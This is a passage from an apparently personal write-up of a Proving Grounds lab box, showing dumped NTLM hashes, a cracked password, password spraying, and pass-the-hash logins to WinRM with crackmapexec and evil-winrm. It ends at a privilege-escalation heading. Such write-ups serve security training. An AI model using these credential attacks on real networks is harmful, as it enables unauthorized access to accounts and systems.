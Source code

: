 ```
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
```
usernames and hashes

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c867ca80-bdac-442f-971e-28c4038e8962)

cracked 1 of the password hash, `ItachiUchiha888`. tried to spray the password across the users, none wrked with it. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/987241b2-95ac-4cb1-9cf7-73e5f2d31014)

Using crackmap exec to spray the hashes againts the users, we can see we have smbclient access. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ crackmapexec winrm 192.168.194.175 -u l.livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
SMB         192.168.194.175 5985   RESOURCEDC       [*] Windows 10.0 Build 17763 (name:RESOURCEDC) (domain:resourced.local)
HTTP        192.168.194.175 5985   RESOURCEDC       [*] http://192.168.194.175:5985/wsman
HTTP        192.168.194.175 5985   RESOURCEDC       [+] resourced.local\l.livingstone:19a3a7550ce8c505c2d46b5e39d6f808 (Pwn3d!)
HTTP        192.168.194.175 5985   RESOURCEDC       [-] Unexpected error with Neo4J
HTTP        192.168.194.175 5985   RESOURCEDC       [-] Account not found on the domain
```
checking if we could login `winrm` and it was success we couldlogin winrm. 

## Initial Foothold winrm

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ evil-winrm -i 192.168.194.175 -u l.livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> whoami 
resourced\l.livingstone
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> 
```
we login winrm using the username and the hash. 


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1886b3eb-e7ef-4c94-9122-b5f789e4b731)
